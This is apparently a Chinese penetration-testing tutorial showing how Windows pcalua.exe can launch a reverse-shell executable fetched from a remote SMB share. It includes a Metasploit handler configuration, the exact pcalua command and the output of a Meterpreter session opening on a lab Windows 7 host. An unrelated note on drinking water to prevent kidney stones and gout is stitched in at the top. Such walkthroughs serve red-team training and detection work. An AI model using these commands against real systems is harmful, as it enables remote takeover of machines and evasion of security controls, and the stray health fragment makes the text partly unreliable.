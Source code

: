 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Pcalua简介：

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

**说明：**Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：  
```bash
C:\Windows\System32\pcalua.exe
```

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.5 Windows 7  

### 配置攻击机msf：
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](/img/13ed50e69746598b03e25538d5ce8f0e.jpg)


### 靶机执行：

```bash
Pcalua -m -a \\192.168.1.119\share\rev_x86_53_exe.exe
```
![](/img/812c8fdac52fcd263438540c02c72205.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.5
[*] Meterpreter session 23 opened (192.168.1.4:53 ‐> 192.168.1.5:11349)
at 2019‐01‐20 09:25:01 ‐0500
meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 11236
meterpreter > 
```

![](/img/245a3a34008b549f40544d7438828123.jpg)

>   Micropoor
